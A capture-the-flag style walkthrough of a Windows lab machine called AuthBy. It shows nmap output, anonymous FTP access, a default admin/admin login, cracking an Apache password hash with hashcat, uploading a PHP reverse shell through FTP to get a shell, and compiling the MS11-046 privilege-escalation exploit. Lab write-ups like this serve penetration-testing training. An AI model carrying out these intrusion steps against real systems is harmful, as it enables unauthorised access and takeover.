









# AuthBy

OS: Windows

# NMAP INITIAL SCAN
Looks like there are not many ports open. No openports discovered on UDP.
This got me hessitating so I ran NMAP twice


```sh
PORT     STATE SERVICE       REASON
21/tcp   open  ftp           syn-ack
242/tcp  open  direct        syn-ack
3145/tcp open  csi-lfap      syn-ack
3389/tcp open  ms-wbt-server syn-ack

```


```sh
ORT     STATE SERVICE            REASON  VERSION
21/tcp   open  ftp                syn-ack zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Aug 18 14:13 log
| ----------   1 root     root         2275 Aug 08  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Feb 18 01:19 accounts
242/tcp  open  http               syn-ack Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
|_http-title: 401 Authorization Required
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
3145/tcp open  zftp-admin         syn-ack zFTPServer admin
3389/tcp open  ssl/ms-wbt-server? syn-ack
| ssl-cert: Subject: commonName=LIVDA
| Issuer: commonName=LIVDA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-01-28T03:26:23
| Not valid after:  2023-07-30T03:26:23
| MD5:   847cb7edb8cdb27003c3faeae819e57b
| SHA-1: f0eb9a3ecff4e904b13d929919e9ca011c92e248
| -----BEGIN CERTIFICATE-----
| MIICzjCCAbagAwIBAgIQbJWOqc9O6L9D37/GihsqmTANBgkqhkiG9w0BAQUFADAQ
| MQ4wDAYDVQQDEwVMSVZEQTAeFw0yMzAxMjgwMzI2MjNaFw0yMzA3MzAwMzI2MjNa
| MBAxDjAMBgNVBAMTBUxJVkRBMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC
| AQEAokghKv5HD3RFBL08Rflj1a+NMkGTC+pypEqCRaFV+OkW9mE9ZIGdu25NBTzY
| HKakShQsnCGEVHbq0FpCxjr///6cwPtNZGaGH1kDpLnnDsXxjNaTer6g6NNuytyj
| 4wBZCjr8ltcFX4yxuKTLjU9PmPbRHFEVcI2atZrXhtdqOyjzhMd82u3k4aCMVt+V
| wmnHcsru5guCJxpXXMKK5cP4sy3TUFu1m77/qot6882c6xh1hWT1ktQU6Bg2t3ET
| uhWvOKOKC4q+/1O4KYoJ304/goiYKO8YpFRHUjLRGtQIQVty5Qo22xy0NTesu6+A
| ejyUyc4LI7XBY6vO3HE5kpVa9QIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcD
| ATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQADggEBAIP4t/SuhwWSM5GyZmNu
| cGGsbcQK/Z0w0lWrPBk6YmCf65Y7eA0FKbtojz7MLsf5QMooUT4xIG5Y9esIOdMy
| SViD1iX8h8PuAoNqvLu8TpWcHmb1+qTH/pTzmAYeWeHEdTKPryb3ZuHwn2UCvB3w
| J9Sr0efgyQSXVNCSugwXUE8/TzuTYlAHPzwVsfHfdVMih4y2HpIGO98sqEti5Px6
| zKXPtRinMdxBN5IasuF99+voPAAwlH1xH3Z+u53Pe4pHoBqUDWUzZ3V1z2HDuX9d
| 92av5hKOJDZZcdcx5XhhJHaVpt2u5VMajJWP3Q9pHC3gVBCAJLOIyVRkDhjl7Tqf
| tHI=
|_-----END CERTIFICATE-----
|_ssl-date: 2023-08-18T07:20:14+00:00; +36s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2023-08-18T07:20:09+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

We see immediately that anonymous login is allowed on the FTP server. There are a lot of files accessible. But first let's enumerate the webserver on port 242.

# Port 242 

As we could already see from the nmap scan there is an basic authorization popup.



> Basic access authentication is a method for an HTTP user agent (e.g. a web browser) to provide a user name and password when making a request. In basic HTTP authentication, a request contains a header field in the form of Authorization: Basic <credentials>, where credentials is the Base64 encoding of ID and password joined by a single colon :.

The realm we should authenticate to is : Qui e nuce nuculeum esse volt, frangit nucem!
which is translaterd as: `the one who wishes to eat the kernel must crack the nut (Plautus). `

No extra informtaion found using Nikto and Whatweb. We can comeback later to login maybe.

# Port 21
From the nmap scan we could already see that there are several files available. including some .bat files (batch) which may contain passwords
> A batch file is a script file in DOS, OS/2 and Microsoft Windows. It consists of a series of commands to be executed by the command-line interpreter, stored in a plain text file. 

We can anonymously login on the ftp server with:

```sh
ftp 192.168.246.46 -a
```

```sh
----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
----------   1 root     root           25 Feb 10  2011 UninstallService.bat
----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
----------   1 root     root           17 Aug 13  2011 StopService.bat
----------   1 root     root           18 Aug 13  2011 StartService.bat
----------   1 root     root         8736 Nov 09  2011 Settings.ini
dr-xr-xr-x   1 root     root          512 Aug 18 14:13 log
----------   1 root     root         2275 Aug 08  2011 LICENSE.htm
----------   1 root     root           23 Feb 10  2011 InstallService.bat
dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
dr-xr-xr-x   1 root     root          512 Feb 18 01:19 accounts
```

Here we see that we do not have any permissions ( read, write or execute on the files. We can only `cd` around in the directories. 

in the account directory we can see some usernames for FTP or the box or both



We could user these possibly later for brute-forcing.
 I could not find information about the .uac extension.
 
 Now we can enumarate the fto software self since nmap already gave us a version number:  zFTPServer 6.0

> zFTPServer Suite is described as 'user friendly and easy to use FTP server. 

# Looking for public exploits
We can look for public exploits using `searchsploit`:


The best result is the last one. We are not interested in a DOS attack. But some remote control would be great.

Lets's copy the exploit to the current working directory.



When readign trhough the exploit we see that this vulnerabilty has a CVE (CVE-2011-4717)

>Directory traversal vulnerability in zFTPServer Suite 6.0.0.52 allows remote authenticated users to delete arbitrary directories via a crafted RMD (aka rmdir) command.

Not sure if we want to delete directories. How can this be useful? The exploit did not yield any results. So I tried to login with the users we found. and had success with admin/admin.



We download all the files with the ftp cmd `mget *`

The index.php does not contain any useful information

When opening the .htpasswd file we can see the following contents:



We can see that our request to the webserver need a valid user specified in the password file (AuthUserFile)


Finally we can see the user and the apache MD5 password hash for basic authorization [info](https://httpd.apache.org/docs/2.4/misc/password_encryptions.html):



We can save the hash to hash.txt now we can crack the hash with hashcat:
```sh
hashcat hash.txt /usr/share/wordlists/rockyou.txt -m 1600
```

Boom let's see what we can login with the password:



We can access the index page but here is not much to see.

After trying to login to rdp and ftp without success We have to look for another option. We are able to login to the ftp as the admin. And we are able to upload to the directory. 
We generate a file (revshell.php) with the contents of `PHP Ivan Sincek` from revshells.com.

Now we opload the php file to the webserver and request the file while being logged in as offsec:


http://192.168.246.46:242/revshell.php

The script makes the machine call back to our netcat listener and we have as shell as the user apache! Very Nice@192.168.246.46




We can now read the local.txt form apache's home directory

# Recommendations:
1. Strong Password Policy
2. Disable Anonymous Login FTP


# Privesc

I tried to run winPEAS on the system but the program did not run. So it was time for manual enumeration. 

We obtain information about the system and windows versions with:
```cmd
c:\Program Files>systeminfo

Host Name:                 LIVDA
OS Name:                   Microsoftr Windows Serverr 2008 Standard 
OS Version:                6.0.6001 Service Pack 1 Build 6001
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                92573-OEM-7502905-27565
Original Install Date:     12/19/2009, 11:25:57 AM
System Boot Time:          8/18/2023, 12:09:53 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~3094 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020

```

If we look for Microsoftr Windows Serverr 2008 Standard Microsoftr Windows Serverr 2008 Standard on google we find the following exploit:

https://www.exploit-db.com/exploits/40564

As instructed in the exploit we can compile the exploit with:
```sh
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
```
Now we need to upload teh binary on to the target machine with certutil.


